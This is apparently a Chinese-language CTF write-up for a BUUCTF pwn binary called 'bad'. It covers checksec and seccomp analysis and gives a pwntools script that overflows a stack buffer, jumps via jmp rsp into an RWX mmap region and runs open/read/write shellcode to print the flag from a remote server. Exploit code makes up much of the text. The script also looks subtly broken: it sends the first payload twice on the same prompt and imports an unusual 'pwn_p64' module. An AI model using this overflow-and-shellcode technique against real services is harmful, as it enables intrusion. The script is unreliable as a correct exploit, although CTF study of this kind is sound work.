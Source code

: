 #### Not Bad

1. checksec

   ```
   ┌──(root㉿kali)-[/home/kali/Desktop]
   └─# checksec bad 
   [*] '/home/kali/Desktop/bad'
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX disabled
       PIE:      No PIE (0x400000)
       RWX:      Has RWX segments
   ```

   最后一行参数表示二进制文件具有可读、可写和可执行（RWX）的内存段，易被利用，而且所有保护都未开启，栈是可执行的
2. IDA静态分析

   ```c
   __int64 __fastcall main(int a1, char **a2, char **a3)
   {
     mmap((void *)0x123000, 0x1000uLL, 6, 34, -1, 0LL);
     sub_400949();
     sub_400906();
     sub_400A16();
     return 0LL;
   }
   ```

   第一行的内存映射简单理解为创建可写和可执行的内存空间，在看接下来的三个函数调用

   第一个函数调用明显使用Seccomp添加过滤规则

   ```c
   __int64 sub_400949()
   {
     seccomp_init();
     seccomp_rule_add();
     seccomp_rule_add();
     seccomp_rule_add();
     seccomp_rule_add();
     return seccomp_load();
   }
   ```

   第二个函数的作用是禁用标准输入、标准输出和标准错误流的缓冲区，即收到数据立即发送（对实时输出非常有利，但会降低效率，比如收到一字节就要做一次IO，效率降低）

   ```
   void sub_400906()
   {
     setbuf(stdin, 0LL);
     setbuf(stdout, 0LL);
     setbuf(stderr, 0LL);
   }
   ```

   第三个函数调用就是具体功能实现

   ```c
   int sub_400A16()
   {
     char buf[32]; // [rsp+0h] [rbp-20h] BYREF

     puts("Easy shellcode, have fun!");
     read(0, buf, 0x38uLL);
     return puts("Baddd! Focu5 me! Baddd! Baddd!");
   }
   ```

   但只能溢出0x38字节，多溢出24字节，可实现栈溢出。

   栈不可执行未开启，可以将shellcode写入buf，直接在栈上执行shellcode，但只有32字节明显不够，题目中mmap开辟了可写可执行的内存空间，所以可以这样构造栈（除mmap申请的空间以外，也可以找任意一块RWX空间写入正真的shellcode）

   `payload = 调用read(0,0x123000,0x1000) + jmp_0x123000 + b"a"*(剩余的字节数用来填满栈，包括抵消leave指令) + jmp_rsp`
   由于不知道栈的位置，所以只能劫持rip到jmp rsp的地址处

   利用Seccomp-tools工具查看该程序

   ```
   ┌──(root㉿kali)-[/home/kali/Desktop]
   └─# seccomp-tools dump ./bad
    line  CODE  JT   JF      K
   =================================
    0000: 0x20 0x00 0x00 0x00000004  A = arch
    0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
    0002: 0x20 0x00 0x00 0x00000000  A = sys_number
    0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
    0004: 0x15 0x00 0x05 0xffffffff  if (A != 0xffffffff) goto 0010
    0005: 0x15 0x03 0x00 0x00000000  if (A == read) goto 0009
    0006: 0x15 0x02 0x00 0x00000001  if (A == write) goto 0009
    0007: 0x15 0x01 0x00 0x00000002  if (A == open) goto 0009
    0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
    0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
    0010: 0x06 0x00 0x00 0x00000000  return KILL
   ```

   只能调用read，write，open三个系统调用，无法调用system函数。

   故mmap分配处的shellcode实现的功能读取flag文件
3. 利用脚本
   可以手写汇编，但也可以借助shellcraft模块直接实现

   ```
   # 导入所需的库
   from pwn import *
   from pwn_p64 import *

   # 远程对象
   io = remote("node4.buuoj.cn", 29087)

   # shellcode内存地址，jmp_rsp指令内存地址
   mmap = 0x123000
   jmp_rsp = 0x400a01

   # 前三条指令是read的三个参数 0是read的系统调用号
   # 结束read函数调用后（在mmap处写好shellcode后），跳转0x123000执行汇编指令
   read_on_mem = """
   mov rdi,0; 
   mov rsi,0x123000;
   mov rdx,0x1000;
   mov rax,0;  
   syscall;
   mov rax,0x123000;
   jmp rax;
   """

   # 栈上shellcode的编写
   payload = asm(read_on_mem).ljust(0x28, b"\0")  # 一部分shellcode，用0填充栈空间大小填满
   payload += p64(jmp_rsp)  # 劫持rip到jmp_rsp指令位置
   payload += asm("sub rsp,0x30;jmp rsp;")

   io.sendlineafter(b"have fun!", payload)

   # mmap映射内存处shellcode编写，先用open返回一个文件指针fd，再利用read将文件内容读取到rsp（栈顶处），再利用write输出

   # 先将要打开的文件"./flag"（0x67616c662f2e）写道栈顶，再将内存地址赋值给参数寄存器，调用后，rax寄存器存的就是文件指针
   open_flag = """
   xor rsi ,rsi ;
   xor rdx,rdx;
   mov rax,0x67616c662f2e;
   push rax;
   mov rdi,rsp;
   mov rax,2; 
   syscall;
   """

   # 调用read函数，栈顶被写入flag
   read_flag = """
   mov rdi,rax;
   mov rsi,rsp ;
   mov rdx,0x30;
   mov rax,0;
   syscall;
   """

   # 调用write输出flag
   output_flag = """
   mov rdi,1 ;
   mov rsi,rsp;
   mov rdx,0x30;
   mov rax,1;
   syscall;
   """

   shellcode = asm(open_flag + read_flag + output_flag)

   io.sendlineafter(b"have fun!", payload)
   io.sendlineafter(b"Baddd!", shellcode)
   io.interactive()
   ```
